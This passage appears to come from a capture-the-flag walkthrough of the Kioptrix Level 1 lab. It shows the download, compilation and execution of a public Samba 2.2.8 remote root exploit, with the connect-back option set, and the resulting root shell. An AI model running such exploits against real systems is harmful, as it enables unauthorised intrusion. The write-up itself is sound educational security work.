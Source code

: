 A quick search for Samba 2.2.1 exploits reveals a couple of interesting
exploits on exploit-db.  

  * [Samba 2.2.8 - Remote Root Exploit](https://www.exploit-db.com/exploits/10/)
  * [0x333hate.c ](http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c)

Both work, there's a handful more PoC for this exploit and an MSF module too, I'll only demonstrate the first exploit.  

```console
root@kali:~# wget https://www.exploit-db.com/download/10  
--2016-11-12 00:16:51--  https://www.exploit-db.com/download/10  
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8  
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: unspecified [application/txt]  
Saving to: ‘10’  
  
10                            [ <=>                                 ]  44.06K  --.-KB/s    in 0.1s      
  
2016-11-12 00:16:59 (364 KB/s) - ‘10’ saved [45117]  
  
root@kali:~# mv 10 b.c  
root@kali:~# gcc b.c  
root@kali:~# ./a.out   
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)  
--------------------------------------------------------------  
Usage: ./a.out [-bBcCdfprsStv] [host]  
  
-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)  
-B <step>       bruteforce steps (default = 300)  
-c <ip address> connectback ip address  
-C <max childs> max childs for scan/bruteforce mode (default = 40)  
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)  
-f              force  
-p <port>       port to attack (default = 139)  
-r <ret>        return address  
-s              scan mode (random)  
-S <network>    scan mode  
-t <type>       presets (0 for a list)  
-v              verbose mode  
  
root@kali:~# ./a.out -b 0 -c 192.168.1.71 -C 40 192.168.1.104  
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)  
--------------------------------------------------------------  
+ Bruteforce mode. (Linux)  
+ Host is running samba.  
+ Worked!  
--------------------------------------------------------------  
*** JE MOET JE MUIL HOUWE  
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown  
uid=0(root) gid=0(root) groups=99(nobody)  
```
Oh, and here's our flag:  
